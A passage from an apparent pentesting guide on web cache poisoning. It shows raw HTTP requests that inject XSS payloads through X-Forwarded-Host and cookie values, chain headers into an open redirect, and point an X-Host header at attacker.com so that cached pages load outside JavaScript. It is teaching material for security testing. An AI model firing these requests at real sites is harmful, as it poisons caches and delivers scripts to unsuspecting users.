 ```markup
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"
```

_Note that this will poison a request to `/en?region=uk` not to `/en`_

### Using web cache poisoning to exploit cookie-handling vulnerabilities

Cookies could also be reflected on the response of a page. If you can abuse it to cause an XSS for example, you could be able to exploit XSS in several clients that load the malicious cache response.

```markup
GET / HTTP/1.1
Host: vulnerable.com
Cookie: session=VftzO7ZtiBj5zNLRAuFpXpSQLjS4lBmU; fehost=asd"%2balert(1)%2b"
```

Note that if the vulnerable cookie is very used by the users, regular requests will be cleaning the cache.

### Using multiple headers to exploit web cache poisoning vulnerabilities <a href="#using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities" id="using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities"></a>

Sometimes you will need to **exploit several unkeyed inputs** to be able to abuse a cache. For example, you may find an **Open redirect** if you set `X-Forwarded-Host` to a domain controlled by you and `X-Forwarded-Scheme` to `http`.**If** the **server** is **forwarding** all the **HTTP** requests **to HTTPS** and using the header `X-Forwarded-Scheme` as the domain name for the redirect. You can control where the page is pointed by the redirect.

```markup
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```

### Exploiting with limited `Vary`header

If you found that the **`X-Host`** header is being used as **domain name to load a JS resource** but the **`Vary`** header in the response is indicating **`User-Agent`**. Then, you need to find a way to exfiltrate the User-Agent of the victim and poison the cache using that user agent:

```markup
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```

### Exploiting HTTP Cache Poisoning by abusing HTTP Request Smuggling
